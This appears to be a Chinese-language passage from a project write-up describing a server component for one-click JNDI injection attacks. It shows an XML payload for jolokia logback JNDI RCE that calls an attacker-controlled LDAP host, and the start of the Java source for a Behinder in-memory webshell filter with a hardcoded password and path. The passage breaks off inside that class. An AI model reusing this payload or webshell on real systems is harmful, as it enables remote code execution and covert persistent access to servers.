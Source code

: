 

---

## 服务端


所有的漏洞都是要使用JNDI和HTTP服务，如果每一个都是攻击者进行使用将漏洞Payload进行适配，这会使得攻击者使用成本和时间成本就大大增大了，这也不能达到一键化，自动化的目的。一个适配所有漏洞的服务端的工具就由此而生，在神父的帮助下，找到了项目[JNDIExploit](https://github.com/feihong-cs/JNDIExploit)。


项目解决了大部分功能，以及框架等问题，这也使得工具很快的得到阶段性的进展。
工具需求：

1. 处理客户端发送的Payload请求，返回对应内容。

以[jolokia logback JNDI RCE](https://github.com/LandGrey/SpringBootVulExploit#0x04jolokia-logback-jndi-rce)类型为例：
客户端要请求xx.xml文件，返回如下内容
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```


2. 定制内存马

和传统内存马注入有区别，JNDI是返回Class文件，直接实例化类。所以得定制化JNDI注入的内存马类文件，内存马源码如下。
```java
package com.feihong.ldap.template;

import org.apache.catalina.LifecycleState;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.util.LifecycleBase;
import org.apache.coyote.RequestInfo;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.io.InputStream;
import java.io.Writer;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.util.EnumSet;
import java.util.HashMap;
import java.util.List;
import java.util.Map;

public class BehinderFilter extends ClassLoader implements Filter{
    public String cs = "UTF-8";
//    public String pwd = "eac9fa38330a7535";
    public String pwd = "02f2a5c80f47d495";
    public String path = "/ateam";
    public String filterName = "ateam666";
    public Request req = null;
    public Response resp = null;


    static {
```